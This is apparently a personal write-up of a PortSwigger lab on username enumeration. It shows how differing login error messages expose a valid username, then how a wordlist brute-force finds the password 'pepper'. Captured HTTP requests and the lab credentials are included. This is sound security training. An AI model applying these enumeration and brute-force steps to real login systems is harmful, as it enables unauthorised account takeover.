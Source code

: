 ```yaml
---
title: Username enumeration via different responses
description: PortSwigger Authentication Lab
---
```

This lab is vulnerable to username enumeration and password brute-force attacks. It has an account with a predictable username and password, which can be found in the following wordlists:

- [Candidate usernames](https://portswigger.net/web-security/authentication/auth-lab-usernames)
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.
## Discovery
Login request
```http
POST /login HTTP/2
Host: 0a3d007704901c3c803e538a00d60087.web-security-academy.net
Cookie: session=kqolczlHWEUGA4MXHzualXLGupjIQc36
Content-Length: 26
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="137", "Not/A)Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-GB,en;q=0.9
Origin: https://0a3d007704901c3c803e538a00d60087.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3d007704901c3c803e538a00d60087.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

username=test&password=123
```

Display message indicating that the username is invalid
![](../../../../public/images/PS_Auth_20250613%20_175423%201.png)

## Exploit
Enumerating the username with the provided list, looking for a different return message that is not "Invalid username".

The username "Amarillo" returned "Incorrect password", indicating it is likely a valid account.
![](../../../../public/images/PS_Auth_20250613%20_175932.png)

With "Amarillo" identified as a  username, I proceeded to brute-force the password using the provided wordlist and found `pepper` as a valid password.

```
POST /login HTTP/2
Host: 0a3d007704901c3c803e538a00d60087.web-security-academy.net

username=Amarillo&password=pepper
```

```
HTTP/2 302 Found
Location: /my-account?id=amarillo
Set-Cookie: session=NbJZ5i49MxiLAq2qz9Vlbse8IHyspWcC; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Credentials: `Amarillo`:`pepper`
![](../../../../public/images/PS_Auth_20250613%20_180904.png)